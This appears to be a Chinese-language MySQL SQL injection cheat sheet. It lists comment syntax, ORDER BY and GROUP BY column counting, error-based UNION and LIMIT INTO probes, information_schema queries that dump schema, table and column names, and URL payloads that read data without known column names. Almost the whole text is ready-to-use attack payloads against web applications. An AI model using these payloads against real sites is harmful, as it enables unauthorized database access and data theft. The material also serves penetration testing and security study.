  ##### 注释符
	# 
	-- 注意这里有个空格
	/* hello */
	/*! hello */
	/*!32302 10*/ MYSQL version 3.23.02
  ##### 联合查询
  	得到列数
	order by或group by
	不断增加数字，直到得到报错响应
	1' ORDER BY 1--+	#True
	1' ORDER BY 2--+	#True
	1' ORDER BY 3--+	#True
	1' ORDER BY 4--+	#False - 只有三个列数
	或
	1' GROUP BY 1--+	#True
	1' GROUP BY 2--+	#True
	1' GROUP BY 3--+	#True
	1' GROUP BY 4--+	#False - 只有三个列数
	报错类型的union select
	1' UNION SELECT @--+     
	1' UNION SELECT @,@--+   
	1' UNION SELECT @,@,@--+ 
	报错类型的LIMIT INTO
	注入点位于LIMIT后，查找列数
	1' LIMIT 1,1 INTO @--+    
	1' LIMIT 1,1 INTO @,@--+  
	1' LIMIT 1,1 INTO @,@,@--+    #没报错 只有三个列数
	information_schema 提取数据库
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
	UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
	Mysql >=4.1没有information_schema
	获取列数
	?id=(1)and(SELECT * from db.users)=(1)
	获取列名
	?id=1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)
	MySQL 5的方法
	-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b)a
	--#1060 - Duplicate column name 'id'

	-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a
	-- #1060 - Duplicate column name 'name'

	-1 UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a
	不知道列名提取数据
	select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
	http://url/index.php?id=1 order by 6
	http://url/index.php?id=-1 union select 1,(select `4` from (select 1,2,3,4,5,6 union select * from users)a limit 1,1)-- -
	http://url/index.php?id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1)-- -
